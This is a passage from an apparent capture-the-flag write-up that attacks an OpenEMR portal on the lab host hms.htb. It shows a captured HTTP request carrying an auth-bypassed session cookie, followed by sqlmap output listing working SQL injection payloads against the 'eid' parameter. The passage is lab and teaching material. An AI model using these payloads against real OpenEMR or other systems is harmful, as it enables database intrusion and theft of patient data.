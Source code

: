 This is a tricky one to do manually, but `sqlmap` will nail it. I'll go
into Burp, find that request, and "copy to file". I'll edit the url to
remove the injection part, leaving this:



    GET /portal/add_edit_event_user.php?eid=1 HTTP/1.1
    Host: hms.htb
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text.md,application/.md+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Connection: close
    Cookie: PHPSESSID=7es8n2o6ab2s8nu5njec0esaus; OpenEMR=glu0rgv7348lt5tgk788cv0tf5
    Upgrade-Insecure-Requests: 1



It is important that that `PHPSESSID` cookie is the one that was
validated with the auth bypass. Then I can run `sqlmap` to enumerate the
database. First find the injection:



    root@kali# sqlmap -r add_edit_event_user.request
            ___
           __H__
     ___ ___[(]_____ ___ ___  {1.4.4#stable}
    |_ -| . [(]     | .'| . |
    |___|_  ["]_|_|_|__,|  _|
          |_|V...       |_|   http://sqlmap.org
    ...[snip]...
    GET parameter 'eid' is vulnerable. Do you want to keep testing the others (if any)? [y/N]
    sqlmap identified the following injection point(s) with a total of 45 HTTP(s) requests:
    ---                                                       
    Parameter: eid (GET)                                      
        Type: boolean-based blind                             
        Title: Boolean-based blind - Parameter replace (original value)
        Payload: eid=(SELECT (CASE WHEN (8430=8430) THEN 1 ELSE (SELECT 1611 UNION SELECT 5937) END))

        Type: error-based                                     
        Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
        Payload: eid=1 AND EXTRACTVALUE(4940,CONCAT(0x5c,0x7178767871,(SELECT (ELT(4940=4940,1))),0x716a787671))

        Type: time-based blind                                
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: eid=1 AND (SELECT 9065 FROM (SELECT(SLEEP(5)))uzSl)

        Type: UNION query                                     
        Title: Generic UNION query (NULL) - 4 columns
        Payload: eid=1 UNION ALL SELECT NULL,NULL,CONCAT(0x7178767871,0x5175594d4b427175765279616a4544664a7176636a65436e5655646d6174516b676e556d6b624568,0x716a787671),NULL-- -
    ---                                                       
    [11:38:31] [INFO] the back-end DBMS is MySQL                                                                         
    back-end DBMS: MySQL >= 5.1                               
    [11:38:31] [INFO] fetched data logged to text files under '/root/.sqlmap/output/hms.htb'
